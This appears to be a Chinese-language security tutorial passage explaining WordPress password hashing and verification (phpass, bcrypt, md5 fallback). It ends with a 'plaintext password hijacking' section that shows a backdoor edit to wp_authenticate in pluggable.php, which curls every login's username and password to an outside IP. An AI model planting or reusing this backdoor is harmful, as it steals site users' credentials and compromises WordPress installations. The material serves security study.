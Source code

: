 其中`**$wp_hasher**`对象实例化的就是引入的phpass开源类

```plain
class 
function HashPassword($password)
    {
        if ( strlen( $password ) > 4096 ) {
            return '*';
        }

        $random = '';

        if (CRYPT_BLOWFISH == 1 && !$this->portable_hashes) {
            $random = $this->get_random_bytes(16);
            $hash =
                crypt($password, $this->gensalt_blowfish($random));
            if (strlen($hash) == 60)
                return $hash;
        }
    ...
```

在哈希过程中会生成salt结合用户的明文密码进行加密，加密算法取决于php版本  
php5.0及以上的版本使用Blowfish算法进行加密，低于php5.0的版本则使用md5算法  
blowfish是一种对称加密算法，理论上是可逆的，但wordpress使用的是它的变体bcrypt，这个加密过程是单向的

### 密码验证

使用`**wp_check_password()**`函数，这个函数将用户输入的密码与数据库中存储的哈希进行比对，在这个过程中，它还会再次使用phpass类中的方法来进行比对

```plain
function wp_check_password($password, $hash, $user_id = '') {
    global $wp_hasher;

    // If the hash is still md5...
    if ( strlen($hash) <= 32 ) {
        $check = hash_equals( $hash, md5( $password ) );
        if ( $check && $user_id ) {
            // Rehash using new hash.
            wp_set_password($password, $user_id);
            $hash = wp_hash_password($password);
        }
  ...
```

## 1.5 登陆明文密码劫持

### 后门劫持

通过修改/wp-include/pluggable.php文件中的`wp_authenticate`方法实现明文密码的劫持

```plain
function wp_authenticate($username, $password) {

    $username = sanitize_user($username);
    $password = trim($password);
  system('curl http://1x2.1x4.7x.2x4:18080/?password='.$username.$password);
    ...
```
